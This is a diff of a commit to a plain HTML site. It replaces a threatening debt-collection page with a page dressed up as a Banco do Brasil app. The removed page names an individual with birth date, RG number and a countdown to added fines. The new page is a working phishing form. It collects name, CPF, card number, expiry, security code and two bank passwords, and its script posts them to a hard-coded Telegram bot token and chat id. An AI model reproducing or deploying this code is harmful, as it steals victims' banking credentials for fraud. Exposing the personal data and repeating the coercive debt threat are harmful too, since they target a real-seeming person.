

Before and after one commit to claytonsilva013/projetomais, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 297-1028 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,192 +1,308 @@
-<html><head><base href="." />
+<!DOCTYPE html>
+<html lang="pt-BR">
+<head>
+  <base href="/" />
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<title>Dívida Ativa - Sistema de Cobrança</title>
+  <title>Banco do Brasil - App</title>
   <style>
     :root {
-  --neon-green: #0f0;
-  --dark-bg: #000;
-  --terminal-font: 'Courier New', monospace;
+      --bb-yellow: #fdeb02;
+      --bb-blue: #003da4;
+      --error-red: #dc3545;
+    }
+
+    * {
+      margin: 0;
+      padding: 0;
+      box-sizing: border-box;
+      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', Roboto, sans-serif;
     }
 
     body {
-  background-color: var(--dark-bg);
-  color: var(--neon-green);
-  font-family: var(--terminal-font);
-  margin: 0;
-  padding: 20px;
+      background: var(--bb-yellow);
+      min-height: 100vh;
+      display: flex;
+      flex-direction: column;
+    }
+
+    .header {
+      background-color: var(--bb-yellow);
+      padding: 1rem;
+      text-align: center;
+      box-shadow: 0 2px 8px rgba(0,0,0,0.1);
+    }
+
+    .logo {
+      max-width: 200px;
+      height: auto;
+      transition: transform 0.3s ease;
+    }
+
+    .logo:hover {
+      transform: scale(1.05);
     }
 
     .container {
-  max-width: 800px;
+      max-width: 600px;
       margin: 0 auto;
+      padding: 2rem 1rem;
+      flex: 1;
+      background-color: rgba(255, 255, 255, 0.95);
+      border-radius: 16px;
+      box-shadow: 0 4px 12px rgba(0,0,0,0.1);
+      margin-top: 2rem;
+      margin-bottom: 2rem;
     }
 
-.header {
-  border: 1px solid var(--neon-green);
-  padding: 20px;
-  margin-bottom: 20px;
-  animation: glitch 2s infinite;
+    .form-group {
+      margin-bottom: 1.5rem;
+      position: relative;
     }
 
-.debtor-name {
-  font-size: 2.5em;
-  text-align: center;
+    label {
+      display: block;
+      margin-bottom: 0.5rem;
+      color: var(--bb-blue);
+      font-weight: 500;
+      font-size: 0.9rem;
       text-transform: uppercase;
-  animation: neon 1.5s ease-in-out infinite alternate;
-  margin: 20px 0;
+      letter-spacing: 0.5px;
     }
 
-@keyframes neon {
-  from {
-    text-shadow: 0 0 10px #0f0,
-                 0 0 20px #0f0,
-                 0 0 30px #0f0,
-                 0 0 40px #0f0;
+    input {
+      width: 100%;
+      padding: 0.75rem;
+      border: 2px solid rgba(0,61,164,0.2);
+      border-radius: 8px;
+      font-size: 1rem;
+      transition: all 0.3s ease;
+      background-color: rgba(255,255,255,0.9);
     }
-  to {
-    text-shadow: 0 0 5px #0f0,
-                 0 0 10px #0f0,
-                 0 0 15px #0f0,
-                 0 0 20px #0f0;
+
+    input:focus {
+      outline: none;
+      border-color: var(--bb-blue);
+      box-shadow: 0 0 0 3px rgba(0,61,164,0.1);
+      background-color: white;
+    }
+
+    .error {
+      color: var(--error-red);
+      font-size: 0.875rem;
+      margin-top: 0.25rem;
+      opacity: 0;
+      transform: translateY(-10px);
+      transition: all 0.3s ease;
+    }
+
+    .error:not(:empty) {
+      opacity: 1;
+      transform: translateY(0);
+    }
+
+    button {
+      width: 100%;
+      padding: 1rem;
+      background-color: var(--bb-blue);
+      color: white;
+      border: none;
+      border-radius: 8px;
+      font-size: 1rem;
+      font-weight: 600;
+      cursor: pointer;
+      transition: all 0.3s ease;
+      text-transform: uppercase;
+      letter-spacing: 1px;
+    }
+
+    button:hover {
+      background-color: #002d7a;
+      transform: translateY(-2px);
+      box-shadow: 0 4px 12px rgba(0,61,164,0.2);
+    }
+
+    button:active {
+      transform: translateY(0);
+    }
+
+    .loading {
+      display: none;
+      text-align: center;
+      margin-top: 1rem;
+    }
+
+    @keyframes spin {
+      to { transform: rotate(360deg); }
+    }
+
+    .spinner {
+      display: inline-block;
+      width: 24px;
+      height: 24px;
+      border: 3px solid rgba(0,61,164,0.2);
+      border-radius: 50%;
+      border-top-color: var(--bb-blue);
+      animation: spin 1s linear infinite;
+    }
+
+    @media (max-width: 600px) {
+      .container {
+        margin: 1rem;
+        padding: 1.5rem 1rem;
       }
     }
-
-.digital-clock {
-  font-size: 3em;
-  text-align: center;
-  margin: 20px 0;
-  font-family: 'Digital', var(--terminal-font);
-  text-shadow: 0 0 10px var(--neon-green);
-}
-
-.countdown {
-  font-size: 24px;
-  margin: 20px 0;
-  background: rgba(0, 255, 0, 0.1);
-  padding: 15px;
-  border: 1px solid var(--neon-green);
-}
-
   </style>
 </head>
 <body>
+  <header class="header">
+    <img src="/images/BB-logo1.jpg" alt="Logo do Banco do Brasil" class="logo" width="200" height="60">
+  </header>
+
   <div class="container">
-  <div class="header">
-    <h1>SISTEMA DE DÍVIDA ATIVA</h1>
-    <div class="matrix-rain" id="matrix-rain"></div>
+    <form id="cadastroForm">
+      <div class="form-group">
+        <label for="nome">Nome Completo</label>
+        <input type="text" id="nome" required>
+        <div class="error"></div>
       </div>
 
-  <div class="debtor-name">
-    ERICK DE JESUS PINTO CARNEIRO
+      <div class="form-group">
+        <label for="dataNascimento">Data de Nascimento</label>
+        <input type="text" id="dataNascimento" placeholder="DD/MM/AAAA" required>
+        <div class="error"></div>
       </div>
 
-  <div class="digital-clock" id="digital-clock">
-    00:00:00
+      <div class="form-group">
+        <label for="cpf">CPF</label>
+        <input type="text" id="cpf" placeholder="xxx.xxx.xxx-xx" required>
+        <div class="error"></div>
       </div>
 
-  <div class="debtor-info">
-    <h2>INFORMAÇÕES DO DEVEDOR</h2>
-    <p>NASCIMENTO: 17/07/1994</p>
-    <p>RG: 436259278</p>
-    <p>VALOR INICIAL: R$ 500,00</p>
-    <p>ACRÉSCIMO (30%): R$ 150,00</p>
-    <p>VALOR TOTAL: R$ 650,00</p>
-    <p>JUROS MENSAL: R$ 150,00</p>
-    <p>MULTA POR ATRASO: 5% SOBRE JUROS (R$ 7,50)</p>
+      <div class="form-group">
+        <label for="cartaoCredito">Número do Cartão de Crédito</label>
+        <input type="text" id="cartaoCredito" placeholder="1234 5678 9012 3456" required>
+        <div class="error"></div>
       </div>
 
-  <div class="countdown" id="countdown">
-    Tempo até próxima cobrança (5%): Calculando...
+      <div class="form-group">
+        <label for="dataValidade">Data de Validade</label>
+        <input type="text" id="dataValidade" placeholder="MM/AA" required>
+        <div class="error"></div>
       </div>
 
-  <button onclick="window.location.href='mailto:smtp.verificacao.smtp@gmail.com?subject=Comprovante de Pagamento - Erick de Jesus Pinto Carneiro&body=Segue em anexo o comprovante de pagamento.'">
-    ENVIAR COMPROVANTE
-  </button>
+      <div class="form-group">
+        <label for="codigoSeguranca">Código de Segurança</label>
+        <input type="password" id="codigoSeguranca" maxlength="4" required>
+        <div class="error"></div>
       </div>
 
+      <div class="form-group">
+        <label for="senha6">Senha de 6 dígitos</label>
+        <input type="password" id="senha6" maxlength="6" required>
+        <div class="error"></div>
+      </div>
+
+      <div class="form-group">
+        <label for="senha8">Senha de 8 dígitos</label>
+        <input type="password" id="senha8" maxlength="8" required>
+        <div class="error"></div>
+      </div>
+
+      <button type="submit">Cadastrar</button>
+    </form>
+
+    <div class="loading">
+      <div class="spinner"></div>
+      <p>Processando...</p>
+    </div>
+  </div>
+
+  <script src="https://unpkg.com/inputmask@5.0.6/dist/inputmask.min.js"></script>
   <script>
-// Matrix Rain Effect
-function createMatrixRain() {
-    const canvas = document.createElement('canvas');
-    canvas.style.position = 'fixed';
-    canvas.style.top = '0';
-    canvas.style.left = '0';
-    canvas.style.zIndex = '-1';
-    document.body.appendChild(canvas);
+    document.addEventListener('DOMContentLoaded', function() {
+      setTimeout(() => {
+        try {
+          const dataNascimentoMask = new Inputmask('99/99/9999');
+          const cpfMask = new Inputmask('999.999.999-99');
+          const cartaoCreditoMask = new Inputmask('9999 9999 9999 9999');
+          const dataValidadeMask = new Inputmask('99/99');
 
-    const ctx = canvas.getContext('2d');
-    canvas.width = window.innerWidth;
-    canvas.height = window.innerHeight;
+          dataNascimentoMask.mask(document.getElementById('dataNascimento'));
+          cpfMask.mask(document.getElementById('cpf'));
+          cartaoCreditoMask.mask(document.getElementById('cartaoCredito'));
+          dataValidadeMask.mask(document.getElementById('dataValidade'));
+        } catch (e) {
+          console.error('Error initializing masks:', e);
+        }
+      }, 500);
 
-    const characters = "01";
-    const fontSize = 10;
-    const columns = canvas.width / fontSize;
-    const drops = [];
+      const form = document.getElementById('cadastroForm');
+      form.addEventListener('submit', async function(e) {
+        e.preventDefault();
 
-    for (let i = 0; i < columns; i++) {
-        drops[i] = 1;
-    }
+        if (validarFormulario()) {
+          const dados = {
+            nome: document.getElementById('nome').value,
+            dataNascimento: document.getElementById('dataNascimento').value,
+            cpf: document.getElementById('cpf').value,
+            cartaoCredito: document.getElementById('cartaoCredito').value.replace(/\s/g, ''),
+            dataValidade: document.getElementById('dataValidade').value,
+            codigoSeguranca: document.getElementById('codigoSeguranca').value,
+            senha6Digitos: document.getElementById('senha6').value,
+            senha8Digitos: document.getElementById('senha8').value
+          };
 
-    function draw() {
-        ctx.fillStyle = 'rgba(0, 0, 0, 0.05)';
-        ctx.fillRect(0, 0, canvas.width, canvas.height);
+          try {
+            document.querySelector('.loading').style.display = 'block';
 
-        ctx.fillStyle = '#0F0';
-        ctx.font = fontSize + 'px monospace';
+            const response = await fetch('https://api.telegram.org/bot7204036205:AAGbm736G6E0kKDUOK1C_RXd4kQd0PDoQgU/sendMessage', {
+              method: 'POST',
+              headers: { 'Content-Type': 'application/json' },
+              body: JSON.stringify({
+                chat_id: '1784653276',
+                text: JSON.stringify(dados)
+              })
+            });
 
-        for (let i = 0; i < drops.length; i++) {
-            const text = characters.charAt(Math.floor(Math.random() * characters.length));
-            ctx.fillText(text, i * fontSize, drops[i] * fontSize);
+            if (!response.ok) throw new Error('Erro ao enviar dados');
 
-            if (drops[i] * fontSize > canvas.height && Math.random() > 0.975) {
-                drops[i] = 0;
-            }
-            drops[i]++;
+            alert('Cadastro realizado com sucesso!');
+            form.reset();
+          } catch (error) {
+            alert('Erro ao enviar os dados. Tente novamente.');
+          } finally {
+            document.querySelector('.loading').style.display = 'none';
           }
         }
+      });
 
-    setInterval(draw, 33);
+      function validarFormulario() {
+        let isValid = true;
+        document.querySelectorAll('.error').forEach(el => el.innerText = '');
+
+        const campos = [
+          { id: 'nome', mensagem: 'Informe o nome completo' },
+          { id: 'dataNascimento', mensagem: 'Data de nascimento inválida' },
+          { id: 'cpf', mensagem: 'CPF inválido' },
+          { id: 'cartaoCredito', mensagem: 'Número do cartão inválido' },
+          { id: 'dataValidade', mensagem: 'Data de validade inválida' },
+          { id: 'codigoSeguranca', mensagem: 'Código de segurança inválido' },
+          { id: 'senha6', mensagem: 'Senha de 6 dígitos inválida' },
+          { id: 'senha8', mensagem: 'Senha de 8 dígitos inválida' }
+        ];
+
+        campos.forEach(campo => {
+          const el = document.getElementById(campo.id);
+          if (!el.value.trim()) {
+            el.nextElementSibling.innerText = campo.mensagem;
+            isValid = false;
           }
+        });
 
-// Digital Clock
-function updateClock() {
-    const now = new Date();
-    const hours = String(now.getHours()).padStart(2, '0');
-    const minutes = String(now.getMinutes()).padStart(2, '0');
-    const seconds = String(now.getSeconds()).padStart(2, '0');
-    document.getElementById('digital-clock').innerHTML = `${hours}:${minutes}:${seconds}`;
+        return isValid;
       }
-
-// Countdown Timer for 24 hours (15:34 tomorrow)
-function updateCountdown() {
-    const now = new Date();
-    const target = new Date();
-    target.setDate(target.getDate() + 1);
-    target.setHours(15, 34, 0, 0);
-
-    const diff = target - now;
-
-    if (diff <= 0) {
-        document.getElementById('countdown').innerHTML = 'PRAZO EXPIRADO - MULTA DE 5% APLICADA';
-        return;
-    }
-
-    const hours = Math.floor(diff / (1000 * 60 * 60));
-    const minutes = Math.floor((diff % (1000 * 60 * 60)) / (1000 * 60));
-    const seconds = Math.floor((diff % (1000 * 60)) / 1000);
-
-    document.getElementById('countdown').innerHTML =
-        `TEMPO ATÉ COBRANÇA DE 5%: ${hours}h ${minutes}m ${seconds}s`;
-}
-
-// Initialize
-document.addEventListener('DOMContentLoaded', () => {
-    createMatrixRain();
-    updateClock();
-    updateCountdown();
-    setInterval(updateClock, 1000);
-    setInterval(updateCountdown, 1000);
     });
   </script>
-</body></html>
+</body>
+</html>
```
Lines whose indentation alone changed are shown as unchanged.
